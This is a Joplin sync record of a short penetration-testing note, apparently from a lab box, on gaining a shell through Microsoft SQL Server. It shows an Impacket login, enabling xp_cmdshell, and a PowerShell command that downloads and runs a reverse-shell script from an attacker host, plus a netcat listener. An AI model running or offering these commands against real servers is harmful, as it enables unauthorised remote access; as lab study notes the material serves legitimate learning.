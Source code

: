 id: 7a5f3528d4af495199306e2c39733bc5
parent_id: 
item_type: 1
item_id: 8aca581f7ef7448c9a0318ef9848fb51
item_updated_time: 1661266292280
title_diff: "[{\"diffs\":[[1,\"MSSQL\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":6}]"
body_diff: "[{\"diffs\":[[1,\"# Scripted method\\\n\\\nDownloaded this script to run to the target with credentials edited in the script\\\n\\\nhttps://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py \\\n\\\n# Default method\\\n\\\nUse Impacket's MsSqlClient\\\n\\\n> python3 ~/tools/mssqlclient.py ARCHTYPE\\\\\\\\sql_svc@10.10.10.27 -windows-auth\\\n\\\n![fafd8448ff9800ed403b3eefff19de4a.png](:/1d9b3a8fc97549efb76c3e7e6d63d908).\\\n\\\n[MSSQL Injection Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)\\\n\\\n- First Enable xp_cmdshell and do an execution of the command to check if the shell is working\\\n\\\n> enable\\\\_xp\\\\_cmdshell;\\\n> \\\n> EXEC xp_cmdshell whoami\\\n\\\n- Then, attempt to get a reverse shell\\\n\\\n> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString(\\\"http://192.168.119.206/Invoke-PowerShellTcp.ps1\\\") | powershell -noprofile'\\\n> \\\n> \\\\# Make sure to have the command Invoke-PowerShellTcp called in the script with the LHOST and LPORT defined\\\n> \\\n> sudo nc -nlvp 433\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":982}]"
metadata_diff: {"new":{"id":"8aca581f7ef7448c9a0318ef9848fb51","parent_id":"17338627f6dc4ef4856d44508b33e0b1","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-08-23T15:00:33.474Z
created_time: 2022-08-23T15:00:33.474Z
type_: 13